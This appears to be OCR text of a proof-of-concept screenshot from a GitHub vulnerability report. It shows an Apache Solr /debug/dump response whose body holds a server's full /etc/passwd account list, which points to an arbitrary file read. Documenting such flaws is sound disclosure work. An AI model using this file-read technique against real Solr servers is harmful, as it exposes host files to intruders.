 ```xml
                bin:x:1:1:bin:/bin:/sbin/nologin
                daemon:x:2:2:daemon:/sbin:/sbin/nologin
                adm:x:3:4:adm:/var/adm:/sbin/nologin
                lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
                sync:x:5:0:sync:/sbin:/bin/sync
                shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
                halt:x:7:0:halt:/sbin:/sbin/halt
                mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
                operator:x:11:0:operator:/root:/sbin/nologin
                games:x:12:100:games:/usr/games:/sbin/nologin
                ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
                nobody:x:99:99:Nobody:/:/sbin/nologin
                systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
                dbus:x:81:81:System message bus:/:/sbin/nologin
                polkitd:x:999:998:User for polkitd:/:/sbin/nologin
                sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
                postfix:x:89:89::/var/spool/postfix:/sbin/nologin
                chrony:x:998:996::/var/lib/chrony:/sbin/nologin
                nscd:x:28:28:NSCD Daemon:/:/sbin/nologin
                tcpdump:x:72:72::/:/sbin/nologin
                cloudera-scm:x:997:995:Cloudera Manager:/var/lib/cloudera-scm-server:/sbin/nologin
                rpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin
                apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
                mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
                flume:x:996:993:Flume:/var/lib/flume-ng:/sbin/nologin
                hdfs:x:995:992:Hadoop HDFS:/var/lib/hadoop-hdfs:/sbin/nologin
                solr:x:994:991:Solr:/var/lib/solr:/bin/bash
                #solr:x:994:991:Solr:/var/lib/solr:/sbin/nologin
                sentry:x:993:990:Sentry:/var/lib/sentry:/sbin/nologin
                hue:x:992:989:Hue:/usr/lib/hue:/sbin/nologin
                zookeeper:x:991:988:ZooKeeper:/var/lib/zookeeper:/sbin/nologin
                mapred:x:990:987:Hadoop MapReduce:/var/lib/hadoop-mapreduce:/sbin/nologin
                httpfs:x:989:986:Hadoop HTTPFS:/var/lib/hadoop-httpfs:/sbin/nologin
                sqoop:x:988:985:Sqoop:/var/lib/sqoop:/sbin/nologin
                hive:x:987:984:Hive:/var/lib/hive:/sbin/nologin
                kafka:x:986:983:Kafka:/var/lib/kafka:/sbin/nologin
                kms:x:985:982:Hadoop KMS:/var/lib/hadoop-kms:/sbin/nologin
                yarn:x:984:981:Hadoop Yarn:/var/lib/hadoop-yarn:/sbin/nologin
                oozie:x:983:980:Oozie User:/var/lib/oozie:/sbin/nologin
                kudu:x:982:979:Kudu:/var/lib/kudu:/sbin/nologin
                hbase:x:981:978:HBase:/var/lib/hbase:/sbin/nologin
                impala:x:980:977:Impala:/var/lib/impala:/sbin/nologin
                spark:x:979:976:Spark:/var/lib/spark:/sbin/nologin
                postgres:x:26:26:PostgreSQL Server:/var/lib/pgsql:/bin/bash
                ckan:x:1000:1000:CKAN User:/usr/lib/ckan:/sbin/nologin
                redis:x:978:974:Redis Database Server:/var/lib/redis:/sbin/nologin
                tomcat:x:53:53:Apache Tomcat:/usr/share/tomcat:/sbin/nologin
            </str>
        </lst>
    </arr>
    <lst name="context">
        <str name="webapp">/solr</str>
        <str name="path">/debug/dump</str>
        <str name="httpMethod">POST</str>
    </lst>
</response>
```
<img width="1919" alt="PoC-1" src="https://user-images.githubusercontent.com/16391655/127770303-89973765-3679-44fe-b2f9-a895ce971564.png">
